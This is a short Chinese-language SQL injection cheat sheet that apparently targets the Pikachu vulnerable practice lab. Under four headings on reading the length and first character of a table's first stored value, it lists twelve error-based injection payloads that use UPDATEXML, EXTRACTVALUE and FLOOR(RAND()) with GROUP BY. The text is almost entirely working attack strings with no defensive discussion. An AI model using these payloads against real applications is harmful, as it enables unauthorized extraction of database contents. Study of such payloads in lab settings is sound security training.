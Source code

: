 判断指定数据库中指定数据表中第一个字段中第一个数据的字节长度

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT LENGTH(username) FROM pikachu.users LIMIT 0, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT LENGTH(username) FROM pikachu.users LIMIT 0, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT LENGTH(username) FROM pikachu.users LIMIT 0, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

判断当前数据库中指定数据表中第一个字段中第一个数据的字节长度

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT LENGTH(username) FROM users LIMIT 0, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT LENGTH(username) FROM users LIMIT 0, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT LENGTH(username) FROM users LIMIT 0, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

判断指定数据库中指定数据表中第一个字段中第一个数据的第一个字符

```
' OR UPDATEXML(1, CONCAT(0x7e, SUBSTR((SELECT username FROM pikachu.users LIMIT 0, 1), 1, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, SUBSTR((SELECT username FROM pikachu.users LIMIT 0, 1), 1, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, SUBSTR((SELECT username FROM pikachu.users LIMIT 0, 1), 1, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

判断当前数据库中指定数据表中第一个字段中第一个数据的第一个字符

```
' OR UPDATEXML(1, CONCAT(0x7e, SUBSTR((SELECT username FROM users LIMIT 0, 1), 1, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, SUBSTR((SELECT username FROM users LIMIT 0, 1), 1, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, SUBSTR((SELECT username FROM users LIMIT 0, 1), 1, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```
